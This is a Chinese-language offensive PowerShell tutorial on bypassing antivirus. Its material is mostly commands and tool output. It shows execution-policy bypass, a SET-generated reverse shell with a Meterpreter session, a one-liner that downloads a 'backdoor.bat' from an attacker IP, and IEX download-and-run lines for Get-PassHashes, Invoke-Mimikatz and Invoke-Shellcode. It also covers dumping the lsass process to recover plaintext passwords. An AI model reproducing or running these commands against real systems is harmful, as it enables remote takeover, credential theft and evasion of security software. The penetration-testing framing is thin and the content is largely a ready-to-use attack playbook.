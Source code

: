 # Powershell tricks::Bypass AV

0x00 Powershell 简介
------------------

* * *

Powershell犹如linux下的bash，并且在windows中Powershell可以利用.NET Framework的强大功能，也可以调用windows API，在win7/server 2008以后，powershell已被集成在系统当中。 Powershell强大的功能特性给windows管理带来了极大的便利，同时也更加便于windows下的渗透测试。

0x01 PowerShell Execution Policy
--------------------------------

* * *

Powershell脚本默认情况下无法双击或在cmd下执行。在执行时需要通过一些方法绕过该策略。 最简单的方法就是执行powershell.exe附加需要执行的命令，也可以将要执行的脚本直接复制进powershell的窗口。 当然也可以`Download and execute`，如下面示例中一样。

如果需要执行ps1文件时，也可以这样：

```
PowerShell.exe -ExecutionPolicy Bypass -File .\runme.ps1

```

不建议使用其他方法全局改变执行策略，如果场景不同可以根据[参考](https://www.netspi.com/blog/entryid/238/15-ways-to-bypass-the-powershell-execution-policy)自行选择执行方式。

0x02 Reverse the Shell
----------------------

* * *

在遇到防护软件时，可以使用powershell执行shellcode返回shell。执行脚本可以用msf生成，也可以用set工具包生成，注意的是msf生成的ps1文件，而set生成的是bat文件。 下面是在set中生成的过程：

```
Select from the menu:

   1) Social-Engineering Attacks
   2) Fast-Track Penetration Testing
   3) Third Party Modules
   4) Update the Metasploit Framework
   5) Update the Social-Engineer Toolkit
   6) Update SET configuration
   7) Help, Credits, and About

  99) Exit the Social-Engineer Toolkit

set> 1

..SNIP...

 Select from the menu:

   1) Spear-Phishing Attack Vectors
   2) Website Attack Vectors
   3) Infectious Media Generator
   4) Create a Payload and Listener
   5) Mass Mailer Attack
   6) Arduino-Based Attack Vector
   7) SMS Spoofing Attack Vector
   8) Wireless Access Point Attack Vector
   9) QRCode Generator Attack Vector
  10) Powershell Attack Vectors
  11) Third Party Modules

  99) Return back to the main menu.

set> 10

The Powershell Attack Vector module allows you to create PowerShell specific attacks. These attacks will allow you to use PowerShell which is available by default in all operating systems Windows Vista and above. PowerShell provides a fruitful  landscape for deploying payloads and performing functions that  do not get triggered by preventative technologies.

   1) Powershell Alphanumeric Shellcode Injector
   2) Powershell Reverse Shell
   3) Powershell Bind Shell
   4) Powershell Dump SAM Database

  99) Return to Main Menu

set:powershell>1
set> IP address for the payload listener: 192.168.200.159
set:powershell> Enter the port for the reverse [443]:4444
[*] Prepping the payload for delivery and injecting alphanumeric shellcode...
[*] Generating x86-based powershell injection code...
[*] Finished generating powershell injection bypass.
[*] Encoded to bypass execution restriction policy...
[*] If you want the powershell commands and attack, they are exported to /root/.set/reports/powershell/
set> Do you want to start the listener now [yes/no]: : yes

..SNIP...

[*] Processing /root/.set/reports/powershell/powershell.rc for ERB directives.
resource (/root/.set/reports/powershell/powershell.rc)> use multi/handler
resource (/root/.set/reports/powershell/powershell.rc)> set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
resource (/root/.set/reports/powershell/powershell.rc)> set lport 4444
lport => 4444
resource (/root/.set/reports/powershell/powershell.rc)> set LHOST 0.0.0.0
LHOST => 0.0.0.0
resource (/root/.set/reports/powershell/powershell.rc)> exploit -j
[*] Exploit running as background job.
msf exploit(handler) > 
[*] Started reverse handler on 0.0.0.0:4444 
[*] Starting the payload handler...
[*] Sending stage (769024 bytes) to 192.168.200.158
[*] Meterpreter session 1 opened (192.168.200.159:4444 -> 192.168.200.158:49818) at 2014-10-23 18:17:35 +0800

msf exploit(handler) > sessions 

Active sessions
===============

  Id  Type                   Information                               Connection
  --  ----                   -----------                               ----------
  1   meterpreter x86/win32  WIN-M49V8M0CSH2\server @ WIN-M49V8M0CSH2  192.168.200.159:4444 -> 192.168.200.158:49818 (192.168.200.158)

```

生成的文件在`/root/.set/reports/powershell/`下。 其中`x86_powershell_injection.txt`为bat文件，可以直接改名运行。 在这里有个技巧可以通过powershell一句话直接下载文件。

```
powershell (new-object System.Net.WebClient).DownloadFile( 'http://192.168.200.159/backdoor','backdoor.bat')

```

![enter image description here](http://drops.javaweb.org/uploads/images/9601b032a5f71a6bd060c1ea5ec49626e6c54617.jpg)

然后再执行就可以得到meterpreter会话了。

![enter image description here](http://drops.javaweb.org/uploads/images/412d2c06b2eca009d09218e435826a9aa109dc71.jpg)

并且可以正常执行cmd命令、dump hash明文等操作。

![enter image description here](http://drops.javaweb.org/uploads/images/730aee5b81772ebc046841fa034402a4b970f2d0.jpg)

![enter image description here](http://drops.javaweb.org/uploads/images/b2c4139993a9c781d610f9567e7b888ea97ce328.jpg)

0x03 Dump the hash
------------------

* * *

当然在仅仅需要dump hash时，也可以借助powershell来完成。

```
powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Get-PassHashes.ps1');Get-PassHashes

```

![enter image description here](http://drops.javaweb.org/uploads/images/0329b448b88f9cb67a4406933d28e334056e0223.jpg)

0x04 Dump the plain Password
----------------------------

* * *

同样也可以用下面的方式(执行powershell版的Mimikatz)获取明文。

```
powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz –DumpCerts

```

![enter image description here](http://drops.javaweb.org/uploads/images/266f8ea2795b27288e9a4e110f33a186a945e540.jpg)

值得注意的是在这里也可以通过Command参数执行Mimikatz命令。

0x05 Memory Dumping
-------------------

* * *

Powershell也可以完成像procdump一样的工作，获取某个进程的dumps。 这里演示获取lsass.exe的dumps，然后再用Mimikatz从dumps中获取明文。

![enter image description here](http://drops.javaweb.org/uploads/images/bfbdaddf0e0b7c8f67df9529e80b5edc3e05edd3.jpg)

然后将lsass dumps文件下载回来用Mimikatz分析可以得到明文密码。

![enter image description here](http://drops.javaweb.org/uploads/images/afc3f0d8db4ef6e9bb31a384640a702b672cad65.jpg)

当然内存dumps不仅仅可以获取windows密码，往往进程内存中或许会储存其他重要的信息或数据。参考[http://blog.spiderlabs.com/2012/07/pentesting-like-an-eastern-european.html](http://blog.spiderlabs.com/2012/07/pentesting-like-an-eastern-european.html)。

0x06 Execute the shellcode
--------------------------

* * *

Powershell由于丰富的扩展功能使得其调用windows API非常方便，所以同样也可以执行shellcode，这一过程如下：

```
powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/CodeExecution/Invoke-Shellcode.ps1'); Invoke-Shellcode –help

```

![enter image description here](http://drops.javaweb.org/uploads/images/7142ad41627a7d65109c0ca2820d669dd0daf13c.jpg)

但是在这里有个问题，就是x64下shellcode已有的很少，往往通过网上搜集的shellcode都是x86的。如果直接执行x86的shellcode则会出错。

不过Invoke-Shellcode.ps1脚本默认是将shellcode注入在powershell.exe进程中，那么便可以用64位系统环境下32位的powershell.exe执行x86的shellcode，过程如下：

```
c:\windows\syswow64\WindowsPowerShell\v1.0\powershell.exe IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/CodeExecution/Invoke-Shellcode.ps1'); Invoke-Shellcode -Shellcode 0x90,0x90,0x90 ...

```

![enter image description here](http://drops.javaweb.org/uploads/images/d31b93ca60e786c199af81af9328b56a15bb5dad.jpg)

并且这一过程适用于大部分msfpayload生成的shellcode。当然在windows下执行shellcode也可以用其它的方法，比如[shellcodeexec](https://github.com/inquisb/shellcodeexec)。不过这个方法并不能bypass AV。但是大家可以根据源码自行bypass。

未完待续。